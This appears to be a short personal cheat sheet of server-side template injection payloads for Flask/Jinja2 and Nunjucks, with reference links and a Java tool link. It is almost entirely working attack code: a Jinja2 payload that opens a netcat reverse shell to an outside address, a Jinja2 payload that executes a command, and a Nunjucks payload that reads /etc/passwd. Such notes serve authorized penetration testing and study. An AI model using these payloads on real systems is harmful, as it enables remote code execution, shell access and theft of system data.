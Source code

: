 ## flask
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md
remote code exec
```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.55 1337 >/tmp/f').read() }}
```

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

## nodejs nunjacks
### worked but need to add \ before double quotes
```bash
http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
```

```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
```


## JAVA
https://github.com/VikasVarshney/ssti-payload
